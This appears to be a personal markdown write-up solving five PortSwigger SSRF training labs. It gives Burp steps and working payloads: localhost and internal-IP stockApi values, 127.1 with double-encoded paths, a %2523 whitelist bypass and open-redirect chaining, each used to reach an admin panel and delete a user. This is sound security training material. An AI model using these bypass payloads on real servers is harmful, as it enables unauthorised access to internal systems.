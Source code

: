 ## SSRF vulnerabilities

### [Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

Goal: change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

- Go to any product `/product?productId=1`
- click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
- Change the URL in the `stockApi` parameter to `http://localhost/admin`. This should display the administration interface.

<img src=".\ssrf_img\1_1.png" style="zoom:70%;" />



- notice that you can delete `carlos` by sending `GET` to `/admin/delete?username=carlos`
- Submit this URL in the `stockApi` parameter

<img src=".\ssrf_img\1_2.png" style="zoom:70%;" />







---



### [Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

Goal : use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

- Go to any product `/product?productId=1`
- click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
- you have to find the internal ip of the admin panel . so , send the request `POST /product/stock` to burp intruder 
- Click "Clear §", change the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlight the final octet of the IP address (the number `1`), click "Add §".
- Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
- Click "Start attack". You should see a single entry with a status of 200, showing an admin interface.

<img src=".\ssrf_img\2_1.png" style="zoom:80%;" />



- now you have the ip , send the request with  `/admin/delete?username=carlos` in `stockApi` parameter to delete `carlos`

<img src=".\ssrf_img\2_2.png" style="zoom:80%;" />





---



### [SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

Goal : change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

- Go to any product `/product?productId=1`

- click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.

- I tried a lot of [bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) like:

  - 127.0.0.1
  - localhost
  - 2130706433 (Decimal ip for 127.0.0.1) [Long / Decimal IP](https://www.smartconversion.com/unit_conversion/IP_Address_Converter.aspx)
  - http://spoofed.burpcollaborator.net => 127.0.0.1

  but all of them got blocked `"External stock check blocked for security reasons"`

- finally i could bypass it with 127.1 and [double encoding](https://owasp.org/www-community/Double_Encoding) of `admin`
  ```bash
  stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
  ```

  



<img src="C:\Users\dell\Desktop\ssrf_img\3_1.png" style="zoom:80%;" />





- send the request with  `/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos` in `stockApi` parameter to delete `carlos`

  

<img src="C:\Users\dell\Desktop\ssrf_img\3_2.png" style="zoom:80%;" />







---





### [SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

Goal: change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`

- Go to any product `/product?productId=1`
- click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
- Change the URL to `http://username@stock.weliketoshop.net/` and observe that this is accepted, indicating that the URL parser supports embedded credentials.
- Append a `#` to the username and observe that the URL is now rejected.
- bypass the block with Double-URL encode the `#` to `%2523` and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
- change `username` to `localhost` and add `/admin`

<img src=".\ssrf_img\4_1.png" style="zoom:60%;" />



- delete `carlos`
  ````bash
  stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
  
  // everything after http:// is the domain 
  // %2523 is the double URL encoding of # to make any thing after it just an id (element)
  // stock.weliketoshop.net mandatory to bypass the whitelist filter
  // /admin/delete?username=carlos path that we want to visit
  ````

  





----





### [SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

Goal : change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

1. Go to any product `/product?productId=1`
2. click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
3. Try tampering with the `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
4. Click "next product" and observe that the `path` parameter is placed into the Location header of a redirection response, resulting in an open redirection.
5. <img src=".\ssrf_img\5_1.png" style="zoom:90%;" />



1. Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the `stockApi` parameter on the stock checker:

   ```bash
   stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
   
   // $26 is the URL encoding of &
   ```

2. Observe that the stock checker follows the redirection and shows you the admin page.

<img src=".\ssrf_img\5_2.png" style="zoom:80%;" />



- Append the path to delete the target user:

```bash
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```



---





